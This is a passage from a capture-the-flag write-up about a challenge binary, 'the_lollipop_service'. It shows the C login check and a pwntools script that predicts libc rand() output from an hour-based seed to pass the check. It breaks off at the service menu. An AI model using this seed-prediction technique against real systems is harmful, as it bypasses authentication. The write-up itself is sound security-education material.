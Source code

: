 ```c
    if (!readInput(buf, 5))
        exitOnError("Read error.. did you say somethings..?");
    int val = rand() % 9999;
    if (val != atoi(buf))
        exitOnError("Wrong sequence!");
}
message("Good boy!");
```

So, it expects a number, which is summed with the hour part of the current local time, and the result is used as seed for the libc PRNG.
Then, the user must provide the first 100 numbers from the PRNG, modulo 9999.
Easy enough:

```python
from pwn import *
import ctypes
import datetime

context(os='linux', arch='i686')

libc = ctypes.CDLL('/lib64/libc.so.6')

p = process('./the_lollipop_service', env={'LD_PRELOAD': './memalloc.so'})

def login():
    p.recvuntil('you??\n')
    p.sendline('0001')
    p.recvuntil('sequence!\n')
    h = datetime.datetime.now().hour
    libc.srand(1 + h)
    for _ in range(100):
        x = libc.rand() % 9999
        p.sendline(str(x).zfill(4))

login()

p.interactive()
```

It doesn't matter which libc we use: the PRNG is always the same (LCG, `x(n+1) = 1103515245*x(n) + 12345 mod 2**31`), so I used my system's libc.
The challenge libc was not provided (altough we had it from previous exploits).
Also, note that I'm padding all inputs with zeroes to the buffer size minus one: the `readInput` function is slightly buggy (more on this later), padding avoided possible issues.

Finally we get a menu:

```
Good boy!

         _____ _                     
        |_   _| |__   ___            
          | | | '_ \ / _ \           
          | | | | | |  __/           
          |_| |_| |_|\___|           
  _          _ _ _                   
 | |    ___ | | (_)_ __   ___  _ __  
 | |   / _ \| | | | '_ \ / _ \| '_ \ 
 | |__| (_) | | | | |_) | (_) | |_) |
 |_____\___/|_|_|_| .__/ \___/| .__/ 
   ____           |_|    _    |_|    
  / ___|  ___ _ ____   _(_) ___ ___  
  \___ \ / _ \ '__\ \ / / |/ __/ _ \ 
   ___) |  __/ |   \ V /| | (_|  __/ 
  |____/ \___|_|    \_/ |_|\___\___| 
```